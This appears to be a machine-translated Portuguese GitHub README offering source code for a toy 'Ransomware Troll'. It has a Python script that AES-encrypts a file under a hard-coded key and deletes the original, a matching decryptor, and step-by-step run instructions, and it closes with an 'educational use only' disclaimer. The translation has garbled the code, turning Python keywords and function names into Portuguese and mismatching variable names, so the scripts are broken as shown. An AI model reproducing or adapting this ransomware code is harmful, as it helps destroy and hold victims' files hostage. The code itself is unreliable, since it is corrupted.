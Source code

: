 # Ransomware
Ransomware na Prática com Python

# Pré-requisitos
Antes de executar os códigos de descrição e criptografia, é necessário ter o Python instalado em seu sistema. Além disso, você deve ter uma biblioteca pyaesinstalada. Você pode conectá-lo usando o comandopip install pyaes .

# Código de Descripción
Aqui está o código base que pode ser usado para descrever arquivos criptografados pelo Ransomware Troll:

```pitão
importar sistema operacional
importar pyaes

#Nome do arquivo criptografado
file_name =  " arquivo.txt.ransomwaretroll "

# Abre o arquivo criptografado em modo de leitura binária
arquivo  =  aberto (nome_do_arquivo, " rb " )
file_data =  arquivo .read()
arquivo .close()

# Chave para descripção
chave =  b " testeransomwares "
aes = pyaes.AESModeOfOperationCTR(chave)

# Realizar a descritografia
decrypt_data = aes.decrypt(dados_do_arquivo)

# Removendo o arquivo criptografado
os.remove(nome_do_arquivo)

# Crie o arquivo descrito
new_file =  " arquivo.txt "
novo_arquivo =  aberto ( f ' { novo_arquivo } ' , " wb " )
novo_arquivo.escrever(descriptografar_dados)
novo_arquivo.fechar()
```


-Se de substituir "arquivo.txt.ransomwaretroll"pelo nome do arquivo criptografado real que você deseja descrever e"testeransomwares" pela chave correta de descritiva fornecida pelo atacante.

# Código de Criptografia
Aqui está o código base que pode ser usado para criptografar arquivos usando o Ransomware Troll:

``` pitão
importar sistema operacional
importar pyaes

# Nome do arquivo a ser criptografado
nome_do_arquivo =  " arquivo.txt "

# Abre o arquivo em modo de leitura binária
arquivo  =  aberto (nome_do_arquivo, " rb " )
file_data =  arquivo .read()
arquivo .close()

# Remover o arquivo original
os.remove(nome_do_arquivo)

# Chave para criptografia
chave =  b " testeransomwares "
aes = pyaes.AESModeOfOperationCTR(chave)

# Realizar a criptografia
crypto_data = aes.encrypt(dados_do_arquivo)

#Nome do novo arquivo criptografado
novo_arquivo = nome_do_arquivo +  " .ransomwaretroll "
novo_arquivo =  aberto ( f ' { novo_arquivo } ' , ' wb ' )
novo_arquivo.escrever(dados_criptográficos)
novo_arquivo.fechar()
```

-Se de substituir "arquivo.txt"pelo nome do arquivo que você deseja criptografar e"testeransomwares" pela chave correta de criptografia. O código criptografado será o arquivo selecionado e salvará uma versão criptografada com a extensão `.ransom


## Instruções

Para descrever um arquivo afetado pelo Ransomware Troll, siga estas etapas:

1 . Verifique se você tem o Python instalado em seu sistema.

2 . Instale a biblioteca ` pyaes` usando o comando ` pip install pyaes` .

3 . Copie o código de descrição fornecido acima e cole-o em um novo arquivo Python.

4 . Abra o arquivo Python em um editor de texto e modifique a linha ` file_name = "arquivo.txt.ransomwaretroll" ` para corresponder ao nome do arquivo criptografado que você deseja descrever.

5 . Verifique se a chave correta de descritiva está definida na linha ` key = b"testeransomwares" ` . Se o fornecedor tiver fornecido uma chave diferente, atualize-a aqui.

6 . Salve o arquivo Python com um nome adequado, por exemplo, ` descriptografar.py ` .

7 . Abra o terminal ou prompt de comando e navegue até o diretório onde você salvou o arquivo Python.

8 . Execute o arquivo Python escrevendo o seguinte comando: ` python descriptografar.py ` .

9 . O código descreverá o arquivo e removerá o arquivo criptografado original.

10 . Verifique se o arquivo descrito foi criado corretamente.

Para criptografar um arquivo usando o Ransomware Troll, siga as mesmas etapas de 1 a 7 acima, mas substitua o código de descrição pelo código de criptografia fornecido. Certifique-se de fornecer o nome do arquivo que você deseja criptografar e a chave correta de criptografia. O arquivo criptografado será salvo com a extensão ` .ransomwaretroll ` .

** Nota: ** Vale destacar que esta solução foi fornecida exclusivamente para fins educacionais e de pesquisa. Não incentivamos o uso de ransomware ou qualquer atividade ilegal. A descriptografia de arquivos criptografados por ransomware só é possível com a chave adequada. Recomendamos que, em caso de ataque, você busque a ajuda de profissionais especializados em segurança cibernética.
